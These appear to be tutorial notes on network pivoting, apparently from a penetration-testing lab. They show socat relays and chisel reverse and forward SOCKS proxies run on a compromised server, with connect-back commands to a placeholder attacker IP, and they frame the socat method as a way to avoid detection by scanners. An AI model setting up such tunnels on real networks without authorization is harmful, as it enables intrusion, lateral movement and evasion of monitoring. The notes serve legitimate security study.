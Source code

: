 **Port Forwarding -- Quiet**
The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not massive, it pays to know a slightly quieter method of port forwarding with socat.
This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:
```bash
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
This opens up two ports: 8000 and 8001, creating a local port relay(chuyen tiep). What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the *compromised relay server* (172.16.0.5 in the previous example) we execute this command:
```bash
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```
Now if target ip is host a web server, we could go to web browser localhost:8000 to access

# Chisel
Chisel is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, the fact it doesn't require SSH access on the compromised target is a big bonus.

**Reverse SOCKS Proxy**:
Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects back from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use 
```bash
./chisel server -p LISTENING_PORT --reverse &
```
On the compromised host, we would use the following command:
```bash
./chisel client ATTACKING_IP:ATTACKING_PORT R:socks &
```
Notice that, despite connecting back to port successfully, the actual proxy has been opened on *127.0.0.1:1080*. As such, we will be using port 1080 when sending data through the proxy.

Note the use of R:socks in this command. "R" is prefixed to remotes (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.

**Forward SOCKS Proxy**:

First, on the compromised host we would use:
```bash
./chisel server -p LISTEN_PORT --socks5
```
On our own attacking box we would then use:
```bash
./chisel client TARGET_IP:SERVER_PORT PROXY_PORT:socks
```
In this command, PROXY_PORT is the port that will be opened for the proxy.
